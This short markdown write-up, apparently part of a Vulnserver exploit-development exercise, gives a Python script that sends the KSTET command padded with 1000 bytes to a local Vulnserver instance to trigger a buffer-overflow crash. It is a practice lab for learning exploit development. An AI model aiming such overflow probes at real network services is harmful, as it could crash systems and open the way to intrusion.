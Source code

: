 # Vulnserver - Command KSTET

Downloaded from: https://github.com/stephenbradshaw/vulnserver

## Initial Crash
```py
import struct
import socket


TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT)  # vulnserver


VULNSRVR_CMD = b"KSTET "  # change me
CRASH_LEN = 1000  # change me

payload = VULNSRVR_CMD
payload += b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512)  # Welcome to Vulnerable Server! ... 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")
```    
